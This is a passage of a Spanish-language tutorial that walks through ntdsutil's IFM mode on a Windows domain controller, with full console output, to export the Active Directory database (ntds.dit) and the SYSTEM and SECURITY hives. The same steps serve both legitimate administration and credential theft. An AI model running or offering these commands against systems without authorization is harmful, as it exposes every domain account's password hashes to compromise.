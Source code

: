 **Paso 4:** ejecutar el comando "ifm"

```cmd
Microsoft Windows [Version 10.0.17763.4010]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>

ntdsutil: ifm
```

**Paso 5:** ejecutar el comando "create full c:\ntds_export"

```cmd
Microsoft Windows [Version 10.0.17763.4010]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
ntdsutil:
ifm:  Create Full c:\ntds_export
Creating snapshot...
Snapshot set {bb0d84bd-e35f-4d4b-ac33-3222b0696e36} generated successfully.
Snapshot {1d9e428c-26c4-4c0e-ba29-4e3e9d5678cd} mounted as C:\$SNAP_202302202041_VOLUMEC$\
Snapshot {1d9e428c-26c4-4c0e-ba29-4e3e9d5678cd} is already mounted.
Initiating DEFRAGMENTATION mode...
     Source Database: C:\$SNAP_202302202041_VOLUMEC$\Windows\NTDS\ntds.dit
     Target Database: c:\ntds_export\Active Directory\ntds.dit

                  Defragmentation  Status (complete)

          0    10   20   30   40   50   60   70   80   90  100
          |----|----|----|----|----|----|----|----|----|----|
          ...................................................

Copying registry files...
Copying c:\ntds_export\registry\SYSTEM
Copying c:\ntds_export\registry\SECURITY
Snapshot {1d9e428c-26c4-4c0e-ba29-4e3e9d5678cd} unmounted.
IFM media created successfully in c:\ntds_export
```

**Paso 6:** Salir del entorno de ntdsutils

```cmd
Microsoft Windows [Version 10.0.17763.4010]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
ifm: quit
ntdsutil: quit
```

Es importante verificar el contenido de la carpeta ntds_export para validar que se guardo correctamente la data durante el proceso de exportación de la base de datos.
